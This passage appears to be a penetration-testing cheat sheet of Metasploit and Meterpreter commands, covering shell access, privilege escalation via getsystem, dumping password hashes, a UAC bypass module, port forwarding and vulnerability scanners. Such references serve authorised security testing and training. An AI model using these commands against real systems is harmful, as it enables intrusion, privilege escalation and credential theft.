 ```bash
execute -f cmd -c
```

- Creates new channel with cmd shell

```bash
ps
```

- Meterpreter show processes

```bash
shell
```

- Meterpreter get shell on the target

```bash
getsystem
```

- Meterpreter attempts priviledge escalation the target

```bash
hashdump
```

- Meterpreter attempts to dump the hashes on the target (must have privileges; try migrating to winlogon.exe if possible first)

```bash
portfwd add –l 3389 –p 3389 –r target
```

- Meterpreter create port forward to target machine

```bash
portfwd delete –l 3389 –p 3389 –r target
```

- Meterpreter delete port forward

```bash
use exploit/windows/local/bypassuac
```

- Bypass UAC on Windows 7 + Set target + arch, x86/64

```bash
use auxiliary/scanner/http/dir_scanner
```

- Metasploit HTTP directory scanner

```bash
use auxiliary/scanner/http/jboss_vulnscan
```

- Metasploit JBOSS vulnerability scanner

```bash
use auxiliary/scanner/mssql/mssql_login
```
